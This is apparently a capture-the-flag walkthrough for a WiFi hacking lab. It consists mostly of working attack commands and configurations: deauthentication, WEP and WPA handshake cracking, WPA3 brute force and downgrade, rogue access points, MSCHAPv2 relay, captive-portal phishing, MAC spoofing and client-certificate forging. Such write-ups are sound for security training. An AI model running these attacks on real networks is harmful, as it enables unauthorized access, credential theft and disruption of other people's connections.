


# WiFi Challenge

## Recon

### What is the channel that the wifi-global Access Point is currently using?

Start a monitoring interface

```
sudo airmon-ng start wlan0mon
```

and scan for the APs

```
sudo airodump-ng wlan0mon -b a
```

<figure><figcaption></figcaption></figure>

### What is the MAC of the wifi-IT client?

Wifi-IT channel is 11 so we need to find client on the channel 11

```
sudo airodump-ng wlan0mon -c 11
```

<figure><figcaption></figcaption></figure>

### What is the probe of 78:C1:A7:BF:72:46?

```
sudo airodump-ng wlan0mon 
```

### What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?

```bash
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
```

Once we have the modified dictionary we can use “mdk4” to launch probes with each of the ESSIDs until the AP responds.

```bash
airmon-ng start wlan0 
iwconfig wlan0mon channel 11
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

## OPN

### What is the flag in the hidden AP router behind default credentials?

Once we know your ESSID we can connect to the network, for that we create a “free.conf’ file to connect from bash using “wpa\_supplicant”.

```bash
network={
	ssid="$ESSID"
	key_mgmt=NONE
	scan_ssid=1
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
```

In another terminal as root:

```bash
dhclient wlan2 -v
```

Once connected to the network and get IP with “dhclient” we can access the IP at IP 192.168.16.1 where we see a login where we can test default credentials such as admin/admin, accessing the admin panel where you can find the flag.

### What is the flag on the AP router of the wifi-guest network?

For this challenge we have to access the wifi-guest network and bypass the captive portal. We can connect with the same method as in the previous challenge, but when we try to access the AP we find a captive portal that asks us for credentials. The AP is in the channel 6, so can monitor it first.

To bypass this login we can use the MAC of a client connected to that network that we see with traffic, for that we can use airodump-ng again and impersonate one of those MAC.

```bash
systemctl stop network-manager
ip link set wlan2 down
macchanger -m b0:72:bf:44:b0:49 wlan2
ip link set wlan2 up
```

next we can connect again

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c open.conf
```

```bash
sudo dhclient -v wlan2
```

<figure><figcaption></figcaption></figure>

To obtain the login credentials we make a capture of “airodump-ng” saving the output with “-w” and after a while (3–5 min approx) we can see HTTP requests in the “.cap” file with “wireshark” in which there is a POST with username and password.

## WEP

### What is the flag on the wifi-old AP website?

Start by launching airdump on th wifi

```
sudo airodump-ng -c 3 -w old --essid wifi-old --bssid F0:9F:C2:71:22:11 wlan0mon
```

<figure><figcaption></figcaption></figure>

and then launch arp attack with airplay

```
sudo aireplay-ng -3 -b F0:9F:C2:71:22:11 -h CE:62:DE:B1:FC:73 wlan0mon
```

now you can use aircrack to crack the password

```
aircrack-ng old-02.cap
```

<figure><figcaption></figcaption></figure>

Once we have the password we can connect to the WEP network:

Create a configuration file to connect to the WEP network.

```bash
nano wep.conf
```

The content should look like this.

```bash
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=11bb33cd55
  wep_tx_keyidx=0
}
```

Now we can connect to the WEP network with our configuration file.

```bash
wpa_supplicant -D nl80211 -i wlan2 -c wep.conf
```

We should try to retrieve an IP address from the DHCP server.

```bash
dhclient wlan2 -v
```

## PSK

### What is the wifi-mobile AP password?

For this challenge we have to obtain the password of a normal PSK network, for this we have to monitor the traffic with “airodump-ng” and wait for a client to connect or force a deauth attack with “aireplay-ng”.

```bash
airodump-ng -c 6 -w mobile --essid wifi-mobile --bssid F0:9F:C2:71:22:12 wlan0mon
```

In parallel

```bash
aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon
```

and then crackit&#x20;

```
aircrack-ng -w rockyou-top100000.txt mobile-01.cap
```

<figure><figcaption></figcaption></figure>

### What is the IP of the web server in the wifi-mobile network?

If we have a handshake and the network password, we can decrypt the traffic of each of the users after the handshake, making it very similar to the open networks in the previous section.

For this we can use “airdecap-ng” and then open the generated file with “Wireshark” to obtain the IP of the HTTP server.

```bash
airdecap-ng -e wifi-mobile -p starwars1 mobile-01.cap
```

then open the decrypted file with wireshark. get the cookie **PHPSESSID=u7bbth00ot6na3uinle9ll2i2a**

### what is the flag after login in wifi-mobile?

The first thing we have to do is to connect to the network, for that we can use “wpa\_supplicant” again, with the following configuration file mobile.conf

```bash
network={
    ssid="wifi-mobile"
    psk="starwars1"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan3 -c mobile.conf
```

```bash
dhclient wlan3 -v
```

inject the cookie in the website

### Is there client isolation in the wifi-mobile network?

To do this we can use “arp-scan” to get the IPs and curl their HTTP server to get the flag.

```bash
arp-scan -I wlan3 -l
curl 192.168.2.7
```

### What is the wifi-offices password?

The wifi-offices network is not visible, so it is in another location or maybe it is no longer there, but we can still get its password by creating a fake AP with “hostapd-mana” and get the handshake of the clients that ask for this network in their Probes to perform a dictionary attack against it and get the password in clear text.

hostapd.conf

```bash
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```bash
hostapd-mana hostapd.conf
```

<figure><figcaption></figcaption></figure>

Once we have obtained the handshake we can crack it using “hashcat”. Clear the hash and use it

```bash
hashcat -a 0 -m 22000 hostapd.hccapx ~/rockyou-top100000.txt --force
```

## SAE

### What is the flag on the wifi-management AP website?

In WPA3 networks it is still possible to brute force until the password is found, to do this we can use “wacker”.

[https://github.com/blunderbuss-wctf/wacker](https://github.com/blunderbuss-wctf/wacker)


```bash
./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```



### What is the flag on the wifi-IT AP website?

If a network with WPA3 SAE has a client configured for WPA2/WPA3 we can perform a downgrade against the client forcing it to connect to our RogueAP with WPA2 obtaining the handshake to crack it later, as in the case of wifi-offices. In this case we can see that the AP uses SAE and PSK, so maybe the clients accept PSK too. We can get this information in the airodump-ng “.csv” file.


hostapd-sae.conf

```bash
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-management.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```bash
hostapd-mana hostapd-sae.conf
```

We can check if the AP has MFP(802.11w) with Wireshark:


In this case 802.11w is disabled so we can deauth:

```bash
# In this case 802.11w is disabled so we can deauth
iwconfig wlan0mon channel 11
aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25  -c 10:F9:6F:AC:53:52
```


```bash
hashcat -a 0 -m 2500 hostapd-management.hccapx ~/rockyou-top100000.txt --force
```


## Recon MGT

### What is the domain of the users of the wifi-regional network?

In MGT networks misconfigured users can send their Identity (username) in clear text before performing the TLS tunnel, so with “airodump-ng” we can passively obtain this information. For this we simply use “airodump-ng” on the correct channel and wait for the clients to connect.

```bash
airodump-ng wlan0mon -w ~/wifi/scanc44 -c 44 --wps
```

then use wireshark to find a username

<figure><figcaption></figcaption></figure>

### What is the email address of the servers certificate?

In Wireshark, just filter by certificates using the AP BBSID as filter (in this case any).

```bash
(wlan.sa == f0:9f:c2:71:22:15) && (tls.handshake.certificate)
```

### What is the EAP method supported by the wifi-global AP?

In Wireshark, just filter by certificates using the AP BBSID as filter (in this case any).

```bash
(wlan.sa == f0:9f:c2:71:22:17) && (tls.handshake.certificate)
```

## MGT

### What is Juan's flag on the wifi-corp AP website?

To attack a mistrusted client on an MGT network we have to create a RogueAP with the same ESSID and configuration but with a self-signed certificate.

After putting our **wlan0** interface in monitor mode, we now have an interface called **wlan0mon**. We will identify the channel of the target AP and gather its ESSID and BSSID.

Use Wireshark to search for the certificate.

<figure><figcaption></figcaption></figure>

For each certificate, we right click and select _Export Packet Bytes_ to save the data into a file with a .der extension.

As a root user, we'll need to navigate to /etc/freeradius/3.0/certs and change the settings of ca.cnf. We edit the **\[certificate\_authority]** fields to match our target CA certificate to appear less suspicious to clients in case they inspect the certificate.

To create the certificates

```
make
```

We make the same attack against the MAC 10:F9:6F:07:6C:40

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40
```

in parallel

```bash
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:07:6C:40
```


Once connected we get your MSCHAPv2 credentials so we need to crack the hash to get the password in clear text. For this we use “hashcat”.

```bash
hashcat -a 0 -m 5500 hash ~/rockyou-top100000.txt --force
```

Create a wpa supplicant configuration files

```
network={
ssid="wifi-corp"
proto=
key_mgmt=WPA-EAP
pairwise=CCMP
auth_alg=OPEN
eap=PEAP
identity="CONTOSO\juan.tr"
password="bulldogs1234"
phase2="auth=MSCHAPV2"
}
```

and then connect

```bash
wpa_supplicant -Dnl80211 -iwlan3 -c corp.conf
```

```bash
dhclient wlan3 -v
```

### What is CONTOSO\test flag on the wifi-corp AP website?

For this challenge we know the user name and perform a brute force attack with rockyou, for this we use “air-hammer”. For this it is important to take into account that it is necessary to have the domain.

```bash
cd  ~/tools/air-hammer
echo 'CONTOSO\test' > test.user
./air-hammer.py -i wlan3 -e wifi-corp -p ~/rockyou-top100000.txt -u test.user
```


After a few minutes:

<figure><figcaption></figcaption></figure>

### What is the flag for the user with pass 12345678 on the wifi-corp AP?

This challenge is very similar to the previous one, but instead of performing a brute force attack, as we know the password we do a password spray, but for this we have to add the domain to the user list to make it the valid login.


```bash
cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt
```



```bash
cd  ~/tools/air-hammer
./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt
```



After a few minutes:

<figure><figcaption></figcaption></figure>

### What is the flag on the wifi-regional-tablets AP?

To perform this challenge we have to do a relay attack. MSCHAPv2 works the same as NetNTLM, so we can reuse the challenge from the AP by forwarding it to the legitimate client and reuse its response to access the real AP. For this we will use “wpa\_sycophant”.

First we configure the name of the AP we want to connect to in “wpa\_sycophant” and we add the MAC of the fake AP we are going to lift, so if we are going to lift it with wlan1 we put the mac of that interface in “bssid\_blacklist”. But first we set the MAC for the BSSID AP.

```bash
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

```bash
echo '
network={
  ssid="wifi-regional-tablets"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

To raise the RogueAP connected to “wpa\_sycophant” we use “berate\_ap”, very similar to “eaphammer” in the previous sections.


```bash
#Shell 1
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```



We make a deauthentication attack on customers as usual. In this case 1 client uses MFT (802.11w) so it is not vulnerable to this attack, but the other client (64:32:A8:A9:DE:55) is.

```bash
# Shell 2
airmon-ng start wlan0
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

Once we have the AP and we start the brute force we run “wpa\_sycophant” and wait for the client to connect to “berate\_ap” and “wpa\_sycophant” can reuse the information to connect to the real AP.

```bash
# Shell 3
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```


When the client connects to the RogueAP wpa\_sycophant connects to the real AP.


In case wpa\_sycophant fails, try editing the “wpa\_sycophant\_example.conf” file by changing phase1:

```bash
phase1="peapver=1"
```

Once connected we can obtain IP by DHCP to access the web server.

```bash
# Shell 4
dhclient wlan3 -v
```


### What is the flag on the wifi-regional AP?

For this challenge we do the same exploit as the previous step, but modifying the pycophant file over the network for corporate computers (no tablets)

```bash
systemctl stop network-manager
airmon-ng stop wlan1mon
ip link set wlan1 down
macchanger -m F0:9F:C2:00:00:00 wlan1
ip link set wlan1 up
```

```bash
echo '
network={
  ssid="wifi-regional"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

To raise the RogueAP connected to “wpa\_sycophant” we use “berate\_ap”, very similar to “eaphammer” in the previous sections.


```bash
# Shell 1
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```


We make a deauthentication attack on customers as usual. In this case 1 client uses MFT (802.11w) so it is not vulnerable to this attack, but the other client (64:32:a8:a9:de:55) is.

```bash
# Shell 2
airmon-ng start wlan0
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28  -c 64:32:a8:a9:de:55
```

Once we have the AP and we start the brute force we run “wpa\_sycophant” and wait for the client to connect to “berate\_ap” and “wpa\_sycophant” can reuse the information to connect to the real AP.

```bash
# Shell 3
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```

Once connected we can obtain IP by DHCP to access the web server.

```bash
# Shell 4
dhclient wlan3 -v
```


### What is the password of the user vulnerable to RogueAP of wifi-global?

**Phishing+RogueAP (captive-portal)**&#x20;

If we try to perform the same attacks as with the previous networks we can see that it is not possible, since as we have seen in the section on EAP methods, the AP only supports client certificate access.

So we cannot attack this network, but we can attack its clients, because as we can see in the Probes, there is a client of this network that asks for the following networks “open-wifi,home-WiFi,WiFi-Restaurant”. So we can create an AP with that name, deauthenticate the wifi-global client and perform a phishing attack with a captive portal to obtain its credentials. For this we can use “eaphammer” with “ — captive-portal” and perform the deauthentication attack with “aireplay-ng”.

```bash
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --essid WiFi-Restaurant --interface wlan4 --captive-portal
```

In parallel:

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```


**Responder+RogueAP (hostile-portal)**&#x20;

Another option we have in this section is to perform a hostile portal attack, executing respond once connected to our Rogue AP. Same as before with — hostile-portal

```bash
cd ~/tools/eaphammer
sudo killall dnsmasq
./eaphammer --essid WiFi-Restaurant --interface wlan2 --hostile-portal
```

In parallel:

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:71:22:17 -c 64:32:A8:BC:53:51
```


After we get the hash:

```bash
cat logs/Responder-Session.log  | grep NTLMv2 | grep Hash | awk '{print $9}' > responder.5600

hashcat -a 0 -m 5600 responder.5600 ~/rockyou-top100000.txt  --force
```

### What is the flag for Administrator on the wifi-corp AP website?

Download all txt from the website

```bash
wget -A txt -m -p -E -k -K -np  http://192.168.7.1/.internalCA/
```

And we import the certificate.


```bash
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert /home/user/Downloads/server.crt --ca-cert /home/user/Downloads/ca.crt --private-key /home/user/Downloads/server.key --private-key-passwd whatever
```


We raise the AP and perform the deauth attack against client and the 2 APs.


```bash
python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```


in parallel

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:BA:6C:41
```

```bash
airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:BA:6C:41
```

<figure><figcaption></figcaption></figure>

**Using berate\_ap**&#x20;

We can use berate\_ap for this RogueAP too.

Convert the files to PEM and create a DH:

```bash
openssl x509 -in ca.crt -out hostapd.ca.pem -outform PEM
openssl x509 -in server.crt -out hostapd.cert.pem -outform PEM
openssl rsa -in server.key -out hostapd.key.pem
openssl dhparam -out hostapd.dh.pem 2048
```

Now we can create the RogueAP with berate\_ap


```bash
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan4 lo wifi-corp --eap-cert-path /home/user/Downloads/
```


### What is the flag found on the wifi-global AP?

Once we have the CA we can create a client certificate to access the wifi-global network legitimately, since we have a legitimate user. To do this we generate the certificate with the CA and the downloaded configuration files.


```bash
cd /home/user/Downloads
openssl genrsa -out client.key 2048
openssl req -config client.conf -new -key client.key -out client.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in client.csr -req -out client.crt
```


Once we have the certificate we can generate a configuration file for “wpa\_supplicant” and then access the web server for the flag.

```bash
echo 'network={
 ssid="wifi-global"
 scan_ssid=1
 mode=0
 proto=RSN
 key_mgmt=WPA-EAP
 auth_alg=OPEN
 eap=TLS
    #anonymous_identity="GLOBAL\anonymous"
 identity="GLOBAL\GlobalAdmin"
 ca_cert="./ca.crt"
 client_cert="./client.crt"
 private_key="./client.key"
 private_key_passwd="whatever" 
}
' > wpa_tls.conf

wpa_supplicant -Dnl80211 -i wlan4 -c wpa_tls.conf
```

And now we are connected to the AP using a certificate.


